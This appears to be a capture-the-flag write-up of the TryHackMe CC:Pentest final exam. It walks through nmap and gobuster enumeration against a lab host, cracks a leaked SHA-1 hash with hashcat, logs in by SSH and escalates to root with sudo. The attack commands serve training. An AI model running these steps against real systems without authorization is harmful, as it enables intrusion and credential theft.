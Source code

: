 ```yaml
---
title: TryHackMe - CC Pentest Final Exam Writeup
layout: post
category: Writeup
date: 2020-10-21
---
```


# Intro

This writeup is THM's CC:Pentest Room's Final Exam's walkthrough which can be found [here](https://tryhackme.com/room/ccpentesting). The objective is to figure out the user flag and root flag.

**Tools used**: Nmap, Gobuster, Hashcat, Privilege Escalation. 

# Analysis

## Nmap

For information gathering and enumeration, I started off with an NMAP stealth scan.

```cli
nmap -p- -v --min-parallelism 100 -sV 10.10.24.168
```
Here, *-p-* scans all 65,535 ports, *-v* is a verbose flag, *--min-parallelism* probes parallelism to speed up the scan and *-sV* shows the version of services running on the target IP.

The results of the scan returned as follows

```cli
Nmap scan report for 10.10.24.168
Host is up (0.31s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
62157/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So there's 2 ports open with SSH and Apache. We'll come back to this later, if needed. 

## GoBuster

Gobuster is a directory bruteforcing tool that will search for hidden directories on the port 80 web server. Let's run the code below to see what it outputs

```cli
gobuster dir -u 10.10.24.168 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

The output was 
```cli
===============================================================
2020/10/21 22:27:08 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
===============================================================
2020/10/21 22:31:48 Finished
===============================================================
```

Aha! There's a directory called 'secret' on the server. However, there's nothing displayed if I visit it and nothing interesting in the source too. So I had to run gobuster on it again under that directory.

```cli
gobuster dir -u 10.10.24.168/secret -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

And this time I found

```cli
/index.html (Status: 200)
```

Nothing again, but the hint says check for different extensions so let's check with other extensions like .txt.

```cli
gobuster dir -u 10.10.24.168/secret -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .txt
```

This shows a 'secret.txt' file. When I open this, I see

```cli
nyan:046385855FC9580393853D8E81F240B66FE9A7B8
```

Which seem like the credentials for the SSH client from the earlier NMAP scan. Let's use this to connect to the SSH server.

```cli
ssh nyan@10.10.24.168
```
But if I use the default password seen above, it doesn't work. As I suspected, this password is hashed. So I used *hashid* to verify the hash being used.

```cli
hashid 046385855FC9580393853D8E81F240B66FE9A7B8
```
And the results pointed it out to be SHA-1

To crack this, let's use *hashcat* as below.

```cli
hashcat -m 100 hash /usr/share/wordlists/rockyou.txt --force
```

The *-m* flag sets the mode to 100 which pertains to SHA-1 and *hash* is a text file I stored the hash digest in.

The results of this crack were as follows:

```cli
046385855fc9580393853d8e81f240b66fe9a7b8:[redacted]
Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: 046385855fc9580393853d8e81f240b66fe9a7b8
Time.Started.....: Wed Oct 21 23:00:00 2020, (1 sec)
Time.Estimated...: Wed Oct 21 23:00:01 2020, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3480.8 kH/s (0.57ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4972544/14344385 (34.67%)
Rejected.........: 0/4972544 (0.00%)
Restore.Point....: 4964352/14344385 (34.61%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: o103192 -> nwcfleshwound
```

Success! The SSH password is as seen above next to the hash.
Let's use that to login to the SSH server.

## User

After logging in, running *ls* gives us the user flag.

```cli
nyan@ubuntu:~$ ls
user.txt
nyan@ubuntu:~$ cat user.txt
[redacted]
nyan@ubuntu:~$ 
```

Now onto the root flag!

If I run 

```cli
nyan@ubuntu:~$ ls -latr
total 36
drwxr-xr-x 3 root root 4096 Dec 20  2019 ..
-rw-r--r-- 1 nyan nyan  655 Dec 20  2019 .profile
-rw-r--r-- 1 nyan nyan 3771 Dec 20  2019 .consolerc
-rw-r--r-- 1 nyan nyan  220 Dec 20  2019 .console_logout
drwx------ 2 nyan nyan 4096 Dec 20  2019 .cache
-rw-r--r-- 1 nyan nyan    0 Dec 20  2019 .sudo_as_admin_successful
drwxrwxr-x 2 nyan nyan 4096 Dec 20  2019 .nano
-rw-rw-r-- 1 nyan nyan   14 Dec 20  2019 user.txt
-rw------- 1 nyan nyan   16 Dec 20  2019 .console_history
drwxr-xr-x 4 nyan nyan 4096 Dec 20  2019 .
```
## Root

There's a hidden file, console_history, opening it, I saw 3 lines of previous history.

```cli
su
sudo su
exit
```

When I run the second line, I successfully entered root.
It seems that *sudo* had the SUID bit set on it.

```cli
nyan@ubuntu:~$ sudo su
root@ubuntu:/home/nyan# whoami
root
root@ubuntu:/home/nyan# 
```

And so

```cli
root@ubuntu:/home/nyan# cd ../..
root@ubuntu:/# cd root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
[redacted]
```

We have successfully found the root flag and thereby finished this exam. 

## *Thanks for following along.*



